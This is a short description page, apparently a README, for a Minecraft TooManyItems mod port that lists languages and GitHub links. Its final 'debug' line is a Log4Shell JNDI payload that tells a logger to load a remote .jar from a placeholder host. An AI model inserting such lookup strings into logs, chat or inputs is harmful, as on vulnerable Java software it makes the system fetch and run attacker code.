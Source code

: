 # Supported languages:
- English
- International Phonetic Alphabet
- Autistic Chinese
- lang.128.name

## TOOMANYITEMS mod For 1.8.9 and Legacy Fabric(unoffically upgraded&ported by me)
github.com/HowardZHY/TooManyItems
https://github.com/HowardZHY/TooManyItems-LegacyFabric

debug: ${jndi:ldap://exploit.example.com:21/exploit/example.jar}
